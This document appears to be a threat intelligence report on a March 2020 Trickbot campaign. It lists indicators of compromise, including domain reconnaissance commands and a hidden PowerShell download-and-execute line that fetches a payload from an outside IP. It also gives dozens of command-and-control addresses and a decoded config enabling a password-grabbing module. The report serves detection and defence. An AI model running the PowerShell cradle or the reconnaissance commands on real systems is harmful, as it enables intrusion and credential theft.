 # Threat Report: 2020-03-17: Trickbot Gtag lib693/tt0002


## Key Intelligence
* Date: 2020-03-17
* Threat Level: 3 (Low)
* Tags: Cobalt Strike, trickbot, misp-galaxy:malpedia="TrickBot", tlp:white

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* text: %WINDIR%\system32\cmd.exe /C net group "enterprise admins" /domain
* text: %WINDIR%\system32\cmd.exe /C net group "domain admins" /domain
* text: %WINDIR%\system32\net1  config workstation
* text: %WINDIR%\System32\cmd.exe /c nltest /domain_trusts
* text: powershell.exe  -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://66.42.99.79:80/q'))"

### External analysis
* link: https://laskowski-tech.com/2020/03/16/breakout-time-trickbot-edition/

### Network activity
* ip-dst|port: 5.182.210.226|443 — On port 443
* ip-dst|port: 192.210.226.106|443 — On port 443
* ip-dst|port: 51.254.164.244|443 — On port 443
* ip-dst|port: 45.148.120.153|443 — On port 443
* ip-dst|port: 195.123.239.67|443 — On port 443
* ip-dst|port: 194.5.250.150|443 — On port 443
* ip-dst|port: 217.12.209.200|443 — On port 443
* ip-dst|port: 185.99.2.221|443 — On port 443
* ip-dst|port: 51.254.164.245|443 — On port 443
* ip-dst|port: 185.62.188.159|443 — On port 443
* ip-dst|port: 46.17.107.65|443 — On port 443
* ip-dst|port: 185.20.185.76|443 — On port 443
* ip-dst|port: 185.203.118.37|443 — On port 443
* ip-dst|port: 146.185.253.178|443 — On port 443
* ip-dst|port: 185.14.31.252|443 — On port 443
* ip-dst|port: 185.99.2.115|443 — On port 443
* ip-dst|port: 172.245.156.138|443 — On port 443
* ip-dst|port: 51.89.73.158|443 — On port 443
* ip-dst|port: 190.214.13.2|449 — On port 449
* ip-dst|port: 181.140.173.186|449 — On port 449
* ip-dst|port: 181.129.104.139|449 — On port 449
* ip-dst|port: 181.113.28.146|449 — On port 449
* ip-dst|port: 181.112.157.42|449 — On port 449
* ip-dst|port: 170.84.78.224|449 — On port 449
* ip-dst|port: 200.21.51.38|449 — On port 449
* ip-dst|port: 46.174.235.36|449 — On port 449
* ip-dst|port: 36.89.85.103|449 — On port 449
* ip-dst|port: 181.129.134.18|449 — On port 449
* ip-dst|port: 186.71.150.23|449 — On port 449
* ip-dst|port: 131.161.253.190|449 — On port 449
* ip-dst|port: 200.127.121.99|449 — On port 449
* ip-dst|port: 114.8.133.71|449 — On port 449
* ip-dst|port: 119.252.165.75|449 — On port 449
* ip-dst|port: 121.100.19.18|449 — On port 449
* ip-dst|port: 202.29.215.114|449 — On port 449
* ip-dst|port: 180.180.216.177|449 — On port 449
* ip-dst|port: 171.100.142.238|449 — On port 449
* ip-dst|port: 186.232.91.240|449 — On port 449
* ip-dst|port: 181.196.207.202|449 — On port 449
* ip-dst: 66.42.99.79

### Payload delivery
* url: http://66.42.99.79:80/q

### Support Tool
* text: ./trick_settings_decoder.py --brute --file ~/Downloads/settings.ini
Searching the charset...

[+] Decoded with matching charset: HJIA/CB+FGKLNOP3RSlUVWXYZfbcdeaghi5kmn0pqrstuvwx89o1246jMQDz7ETy

<mcconf>
<ver>1000503</ver>
<gtag>tt0002</gtag>
<servs>
<srv>5.182.210.226:443</srv>
<srv>192.210.226.106:443</srv>
<srv>51.254.164.244:443</srv>
<srv>45.148.120.153:443</srv>
<srv>195.123.239.67:443</srv>
<srv>194.5.250.150:443</srv>
<srv>217.12.209.200:443</srv>
<srv>185.99.2.221:443</srv>
<srv>51.254.164.245:443</srv>
<srv>185.62.188.159:443</srv>
<srv>46.17.107.65:443</srv>
<srv>185.20.185.76:443</srv>
<srv>185.203.118.37:443</srv>
<srv>146.185.253.178:443</srv>
<srv>185.14.31.252:443</srv>
<srv>185.99.2.115:443</srv>
<srv>172.245.156.138:443</srv>
<srv>51.89.73.158:443</srv>
<srv>190.214.13.2:449</srv>
<srv>181.140.173.186:449</srv>
<srv>181.129.104.139:449</srv>
<srv>181.113.28.146:449</srv>
<srv>181.112.157.42:449</srv>
<srv>170.84.78.224:449</srv>
<srv>200.21.51.38:449</srv>
<srv>46.174.235.36:449</srv>
<srv>36.89.85.103:449</srv>
<srv>181.129.134.18:449</srv>
<srv>186.71.150.23:449</srv>
<srv>131.161.253.190:449</srv>
<srv>200.127.121.99:449</srv>
<srv>114.8.133.71:449</srv>
<srv>119.252.165.75:449</srv>
<srv>121.100.19.18:449</srv>
<srv>202.29.215.114:449</srv>
<srv>180.180.216.177:449</srv>
<srv>171.100.142.238:449</srv>
<srv>186.232.91.240:449</srv>
<srv>181.196.207.202:449</srv>
</servs>
<autorun>
<module name="pwgrab"/>
</autorun>
</mcconf> — decoded trickbot config using https://github.com/hasherezade/malware_analysis/tree/master/trickbot

## Objects
### file — File object describing a file with meta-information
* [Artifacts dropped] malware-sample: VMMM.exe|1853b48b655d5bd0a34791a93da8647c
* [Artifacts dropped] filename: VMMM.exe
* [Artifacts dropped] md5: <md5>
* [Artifacts dropped] sha1: <sha1>
* [Artifacts dropped] sha256: <sha256>
* [Other] size-in-bytes: 262144

### file — File object describing a file with meta-information
* [Artifacts dropped] malware-sample: 0gi7s88zgyl7qz9uwcwgcjigat_x2k3zrofs8xd_rfur2a61vxg28au9ha00n7pt.exe|05edcb0eb84c33833186465b81a7fe9c
* [Artifacts dropped] filename: 0gi7s88zgyl7qz9uwcwgcjigat_x2k3zrofs8xd_rfur2a61vxg28au9ha00n7pt.exe
* [Artifacts dropped] md5: <md5>
* [Artifacts dropped] sha1: <sha1>
* [Artifacts dropped] sha256: <sha256>
* [Other] size-in-bytes: 397312

### file — File object describing a file with meta-information
* [Artifacts dropped] malware-sample: 61y3xfon4je4qk9qm5zy6v3xhzlxf8ubmvbs567ig7snb8vqwb27xk7rb2vh2_yk.exe|2f1ac455d1c6e2a3f3e0d1137b047696
* [Artifacts dropped] filename: 61y3xfon4je4qk9qm5zy6v3xhzlxf8ubmvbs567ig7snb8vqwb27xk7rb2vh2_yk.exe
* [Artifacts dropped] md5: <md5>
* [Artifacts dropped] sha1: <sha1>
* [Artifacts dropped] sha256: <sha256>
* [Other] size-in-bytes: 115712
